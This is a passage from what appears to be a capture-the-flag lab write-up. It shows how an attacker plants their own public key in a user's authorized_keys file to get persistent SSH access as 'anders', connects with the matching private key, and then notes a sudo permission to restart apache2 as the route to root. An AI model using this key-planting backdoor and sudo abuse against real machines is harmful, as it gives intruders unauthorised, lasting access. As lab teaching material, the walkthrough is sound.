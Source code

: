 <br /><br />



**Add our ssh key to the authorized_keys file to access the machine via ssh as user anders.**

Now we will go to to /.ssh and there will be file called “authorized_keys”. This key indicates which device is assigned to ssh server on the exact user. Put your public key into “authorized_keys” file:

````bash
$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDfVFH0vXDlMlc/6Vfsl2CP53m3JEIDa5ps5vkPmnfidTTqoTcT5n9hkBvPmqm+ztnV5cdZnhI3J746wBA+7yOwVnWwMM6SnaamrrpQsobJ/KGqeofRz3sUVUgBoYu9pRyMZBoHeOWJZ8GKwZAXhcXIioM/Dlr4reg8kvQd2htXrUCdzzPHmHaUy9sfNQSqzmyr4PjFsv3Mjv7T25+FOuandO5zVIecx4hlZmlGgvoB4uiB0Z5Nb4bW/uoiDlmU4L7usOlheBMfQffov7zEaloX84ttz0SaADECqYg4rP9xqQgRPqEic+d0zI78npqCYgdNaG2getN/q/bfpTG8E3BB root@ip-10-10-138-166" > authorized_keys
$ 



$ cat authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDfVFH0vXDlMlc/6Vfsl2CP53m3JEIDa5ps5vkPmnfidTTqoTcT5n9hkBvPmqm+ztnV5cdZnhI3J746wBA+7yOwVnWwMM6SnaamrrpQsobJ/KGqeofRz3sUVUgBoYu9pRyMZBoHeOWJZ8GKwZAXhcXIioM/Dlr4reg8kvQd2htXrUCdzzPHmHaUy9sfNQSqzmyr4PjFsv3Mjv7T25+FOuandO5zVIecx4hlZmlGgvoB4uiB0Z5Nb4bW/uoiDlmU4L7usOlheBMfQffov7zEaloX84ttz0SaADECqYg4rP9xqQgRPqEic+d0zI78npqCYgdNaG2getN/q/bfpTG8E3BB root@ip-10-10-138-166
````

<br /><br />

**connect via ssh**

```bash
root@ip-10-10-138-166:~/.ssh# ssh anders@10.10.127.138 -i id_rsa
```

<br /><br />

---



### root flag

<br />

**From `sudo -l`, the user andres was  able to restart the apache2 service without the root password with sudo permissions. ** 

![](/assets/img/thm/intranet/23.png)
